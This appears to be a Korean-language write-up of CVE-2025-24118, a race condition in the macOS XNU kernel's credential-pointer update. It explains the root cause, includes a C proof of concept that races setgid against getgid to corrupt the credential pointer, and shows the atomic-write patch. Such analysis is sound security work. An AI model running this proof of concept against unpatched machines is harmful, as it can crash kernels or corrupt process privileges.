

## URL

[https://jprx.io/cve-2025-24118/](https://jprx.io/cve-2025-24118/)

## Target

- macOS Sonoma < 14.7.3
- macOS Sequoia < 15.3
- iPadOS < 17.7.4

## Explain

MIT CSAIL의 보안 연구원 Joseph Ravichandran(@0xjprx)에 따르면, Apple의 macOS 커널(XNU)에서 새롭게 발견된 race condition으로 인해 공격자가 권한 상승과 메모리 손상을 일으킬 수 있고 잠재적으로 커널 수준의 코드 실행을 달성할 수 있습니다. 이 취약점은 Safe Memory Reclamation (SMR), read-only 페이지 매핑, 스레드별 자격 증명, memcpy 사용 등의 조합으로 발생하며, 결국 무단 자격 증명 수정을 허용하는 race condition으로 이어집니다.

### root cause

1) **Safe Memory Reclamation** 

`Safe Memory Reclamation`이란 `lock`을 사용하지 않고 메모리를 회수하는 동시에 `use-after-free` 공격이 불가능하게 하는 알고리즘입니다. 이 SMR은 최근에서야 macOS 커널인 XNU에 일부분 추가되었는데, 그 중 하나가 오늘 말씀드리는 취약점에 해당하는 프로세스 자격 증명 구조입니다. 

> **Safe Memory Reclamation in XNU([링크](https://github.com/apple-oss-distributions/xnu/blob/xnu-11215.41.3/osfmk/kern/smr.c#L47))**
RCU(Read-Copy-Update 방식)과 매우 비슷하게, XNU의 SMR 구현은 read-side critical section을 사용합니다. 즉, `reader`는 SMR 보호 필드를 읽기 전 `smr_enter()`을 호출해야 하고, 읽은 후 `smr_leave()`를 호출해야 합니다.
`writer`은 작성자를 직렬화 함으로써 한 번에 하나의 작성자만 있을 수 있도록 합니다. `writer`은 atomic 업데이트를 통해 데이터 구조의 새 버전을 게시하는데, 여기서 atomic CPU 명령어를 사용하여 메모리를 업데이트하는 것이 매우 중요합니다. 그렇지 않으면 `reader`가 SMR 포인터에 대한 중간 값을 읽을 수 있게 됩니다.
> 

2) **Read-Only Pages in XNU**

XNU는 읽기 전용 객체를 할당하고 관리하기 위해 API를 사용합니다([링크](https://github.com/apple-oss-distributions/xnu/blob/xnu-11215.41.3/doc/allocators/read-only.md)). 

읽기 전용 객체는 읽기 전용 매핑을 위해 설계된 특수 버전의 allocator인 `zalloc_ro`을 통해 할당될 수 있습니다. 그리고 `zalloc_ro_mut` 과 이와 관련된 메소드로만 읽기 전용의 데이터를 수정할 수 있습니다. 이때 수정할 객체와 쓸 내용을 인수로 받는데. 읽기 전용 객체용 memcpy의 특수 버전과 비슷합니다. 이 `zalloc_ro_mut`는 내부적으로 `pmap_ro_zone_memcpy`를 사용하는데, 이를 통해 아키텍쳐에 따라 페이지 보호 계층(PPL)을 통과하여 페이지를 잠금 해제할 수 있습니다.

x84_64에서 `memcpy`의 구현을 살펴보면,

```nasm
ENTRY(memcpy)
  movq    %rdi, %rax  /* return destination */
  movq    %rdx, %rcx
  cld                 /* copy forwards */
  rep movsb
  ret
```

`rep movsb`로 인해 atomic이지 않고 바이트 단위로 복사합니다.

만약, 동시에 `reader`가 부분적으로 업데이트된 포인터를 관찰하면 `writer` 스레드에서 작성중인 데이터에 이전 값과 새 값의 일부를 연결하여 형성된 잘못된 주소로 역참조될 수 있습니다. 이는 잠재적으로 어떤 `writer`도 참조하지 않은 3번째 유효한 객체를 정확히 가리킬 수 있습니다.

  

읽기 전용 객체를 업데이트할 때 호출 트리를 다시 살펴보면 함수 호출 순서는 다음과 같습니다.

> `zalloc_ro_mut` → `pmap_ro_zone_memcpy` → `memcpy` → `rep movsb`
> 

결국 `zalloc_ro_mut`가 `rep movsp`를 사용함은 자명하지만 atomic 쓰기가 필요한 곳에 atomic 쓰기가 되지 않습니다. 그래서 만약, `zalloc_ro_mut`가 `zalloc_ro_mut_atomic`이 사용되어야 할 곳에 있다면 race condition 버그를 찾을 가능성이 높습니다.

3) **Per-Thread Credentials**

XNU의 자격 증명은 스레드의 사용자 ID와 같은 여러 보안 관련 필드를 트레이싱하는 데이터 구조입니다. 다음은 `ucred`의 정의입니다.

```c
struct ucred {
  struct ucred_rw        *cr_rw;
  void                   *cr_unused;
  u_long                  cr_ref;  /* reference count */

  struct posix_cred {
    /*
     * The credential hash depends on everything from this point on
     * (see kauth_cred_get_hashkey)
     */
    uid_t   cr_uid;         /* effective user id */
    uid_t   cr_ruid;        /* real user id */
    uid_t   cr_svuid;       /* saved user id */
    u_short cr_ngroups;     /* number of groups in advisory list */
    u_short __cr_padding;
    gid_t   cr_groups[NGROUPS];/* advisory group list */
    gid_t   cr_rgid;        /* real group id */
    gid_t   cr_svgid;       /* saved group id */
    uid_t   cr_gmuid;       /* UID for group membership purposes */
    int     cr_flags;       /* flags on credential */
  } cr_posix;
...
};
```

자격 증명의 일부 `posix_cred`는 현재 스레드의 권한을 추적하는데 사용됩니다. 

시스템의 대부분 스레드는 현재 사용자의 권한과 상관없이 동일한 권한을 갖습니다. 모든 스레드에 대해 이러한 동일 자격 증명의 사본을 저장하려면 상당한 메모리가 필요합니다. 그래서 XNU는 SMR 해시 테이블을 사용하여 자격 증명 구조를 해싱하여 스레드가 동일한 자격 증명 객체를 공유할 수 있도록 합니다. 이 자격 증명 객체는 참조 카운트(`cr_ref`)를 사용하여 해제할 수 있는 시점을 추적합니다.

해시는 `cred`의 두번째 절반(e.g., cr_posix 이후)을 사용하여 계산됩니다. 이를 통해 동일한 권한을 가진 스레드가 동일한 자격 증명 객체를 공유하여 메모리를 절약할 수 있습니다.

### Race Condition

앞서 말씀드린 root cause를 요약해보겠습니다.

- `proc_ro`는 프로세스의 민감한 데이터(자격 증명 등)를 관리하는 데 사용되는 읽기 전용 객체이며, `zalloc_ro_mut` 함수 계열을 통해서만 수정할 수 있습니다.
- `proc_ro.p_ucred` 는 프로세스의 자격 증명 구조에 대한 SMR로 보호된 포인터입니다.
- `p_ucred`는 SMR 포인터 이므로 `writer`는 [lock](https://github.com/apple-oss-distributions/xnu/blob/xnu-11215.41.3/bsd/sys/proc_internal.h#L309)을 통해서 서로 동기화해야 하며, 사용 시 atomic 작업을 통해서 `p_ucred`를 변경해야 합니다.
- 읽기 전용 객체를 수정하는 `zalloc_ro_mut` 함수는 atomic 하지 않아 `u_cred`를 수정하기에 적합하지 않습니다.

그래서 버그는 코드에 `pro_ro.p_ucred`를 atomic 하지 않은 함수 `zalloc_ro_mut`를 통해 업데이트하는 지점에 있습니다. 업데이트 함수 호출 시 잠금 없이 로드되는 `p_ucred`의 SMR 역참조와 race condition을 일으켜 부분적으로 `p_ucred`에 값을 써 **다른 자격 증명**을 가리킬 수 있습니다.

### 버그 함수

버그는 `kauth_cred_proc_update` 함수에서 `proc_ro`의 `p_ucred` 포인터를 업데이트 시키는 부분에 있습니다.

```
bool
kauth_cred_proc_update(
  proc_t                  p,
  proc_settoken_t         action,
  kauth_cred_derive_t     derive_fn)
{
  kauth_cred_t cur_cred, free_cred, new_cred;

  cur_cred = kauth_cred_proc_ref(p);

  for (;;) {
    new_cred = kauth_cred_derive(cur_cred, derive_fn);
    if (new_cred == cur_cred) {
      ...
      kauth_cred_unref(&new_cred);
      kauth_cred_unref(&cur_cred);
      return false;
    }

    proc_ucred_lock(p);
    if (__probable(proc_ucred_locked(p) == cur_cred)) {
      kauth_cred_ref(new_cred);
      kauth_cred_hold(new_cred);

      // This is the bug:
      zalloc_ro_mut(ZONE_ID_PROC_RO, proc_get_ro(p),
          offsetof(struct proc_ro, p_ucred),
          &new_cred, sizeof(struct ucred *));

      kauth_cred_drop(cur_cred);
      ucred_rw_unref_live(cur_cred->cr_rw);

      proc_update_creds_onproc(p, new_cred);
      proc_ucred_unlock(p);

      ...
      kauth_cred_unref(&new_cred);
      kauth_cred_unref(&cur_cred);
      return true;
    }
    ...
  }
}
```

## PoC

`kauth_cred_proc_update`가 `p_ucred`를 변경할 때마다 버그가 발생하지만, 대부분의 작업 흐름에서는 자격 증명을 변경하지 않아 문제가 발생하지 않습니다. Race condition을 발생시키기 위해서는 `p_ucred`에 쓰기가 발생하는 동안 읽어와야 합니다. 다시 말해 `zalloc_ro_mut`를 통해서 `p_ucred`가 변경될 때의 지점을 잡아야 하고 커널에서 해당 흐름은 `setuid`, `setgid`, `setgroups`등이 발생시킬 수 있습니다. 다음 PoC는 setgid를 이용하여 race condition을 증명했습니다.

```c
// Joseph Ravichandran (@0xjprx)
// PoC for CVE-2025-24118.
// Writeup: https://jprx.io/cve-2025-24118
...

gid_t rg; // real gid
gid_t eg; // effective gid

void *toggle_cred(void *_unused_) {
    while(true) {        // [1]
        setgid(rg);
        setgid(eg);
    }

    return NULL;
}

void *reference_cred(void *_unused_) {
    // [2]
    volatile gid_t tmp;
    while(true) tmp = getgid();
    
    return NULL;
}

int main(int argc, char **argv) {
    pthread_t pool[2 * NUM_THREADS];
    rg = getgid();
    eg = getegid();

    if (rg == eg) {
        fprintf(stderr, "Real and effective groups are the same (%d), they need to be different to trigger kauth_cred_proc_update\n", rg);
        exit(1);
    }

    printf("Starting %d thread pairs\n", NUM_THREADS);
    printf("rgid: %d\negid: %d\n", rg, eg);
    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_create(&pool[(2*i)+0], NULL, toggle_cred, NULL);
        pthread_create(&pool[(2*i)+1], NULL, reference_cred, NULL);
    }

    for (int i = 0; i < NUM_THREADS; i++) {
        pthread_join(pool[(2*i)+0], NULL);
        pthread_join(pool[(2*i)+1], NULL);
    }

    printf("Done\n");
    return 0;
}
```

[ 1 ](Writer Thread) `proc_ro.p_ucred`에 값을 작성하기 위해 `kauth_cred_proc_update` 함수를 호출합니다.

> `setgid`가 호출될 때마다 `kauth_cred_proc_update`는 자격 증명 포인터를 사용자의 `p_ucred`로  업데이트합니다. 권한이 없는 공격자는 해시 테이블에 저장된 자격 증명 정보를 통해 real gid로 자격 증명을 변경할 수 있습니다.
> 

[ 2 ](Reader Thread) `proc_ro.p_ucred`를 읽기 위해 `current_cached_proc_cred_update` 함수를 호출합니다.

> unix_syscall64 스레드 간에 다른 자격 증명을 유지하기 위해 모든 syscall 동안 현재 프로세스의 자격 증명을 참조합니다. 그룹 ID 변경과 동시에 실행되는 모든 syscall은 이 읽기를 트리거합니다. 어느 시점에서 이러한 읽기 작업 중 하나가 `p_ucred` 에 절반 정도 쓰여진 값을 관찰하게 되는데 운이 좋으면 크래시가 발생하고 아니면 자격 증명이 손상됩니다.
> 




PoC 코드를 돌리면 자격 증명 포인터가 손상되므로 커널 패닉이 발생하거나 다른 자격 증명 객체를 가리킬 수 있습니다.

해당 취약점은 atomic 함수를 직접 호출하는 식으로 패치가 제안되었습니다.

```c
@@ -3947,9 +3947,9 @@ kauth_cred_proc_update(
            kauth_cred_ref(new_cred);
            kauth_cred_hold(new_cred);

-            zalloc_ro_mut(ZONE_ID_PROC_RO, proc_get_ro(p),
+            zalloc_ro_mut_atomic(ZONE_ID_PROC_RO, proc_get_ro(p),
                offsetof(struct proc_ro, p_ucred),
-                &new_cred, sizeof(struct ucred *));
+                ZRO_ATOMIC_XCHG_LONG, (uint64_t)new_cred);

            kauth_cred_drop(cur_cred);
            ucred_rw_unref_live(cur_cred->cr_rw);
```

## Reference

[https://nvd.nist.gov/vuln/detail/CVE-2025-24118](https://nvd.nist.gov/vuln/detail/CVE-2025-24118)

[https://securityonline.info/poc-exploit-released-for-macos-kernel-vulnerability-cve-2025-24118-cvss-9-8/](https://securityonline.info/poc-exploit-released-for-macos-kernel-vulnerability-cve-2025-24118-cvss-9-8/)

[https://support.apple.com/en-us/122067](https://support.apple.com/en-us/122067)
